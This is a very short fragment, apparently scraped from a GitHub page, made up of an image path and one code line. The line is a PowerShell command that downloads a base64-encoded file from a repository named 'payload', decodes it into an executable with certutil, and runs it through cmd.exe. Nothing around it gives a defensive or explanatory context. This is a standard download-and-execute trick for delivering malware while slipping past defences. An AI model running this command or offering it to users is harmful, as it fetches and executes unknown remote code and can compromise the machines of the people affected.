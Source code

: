 <code>powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.bs4 -O file.bs4 & certutil -decode file.bs4 file.exe & cmd.exe /c file.exe</code>
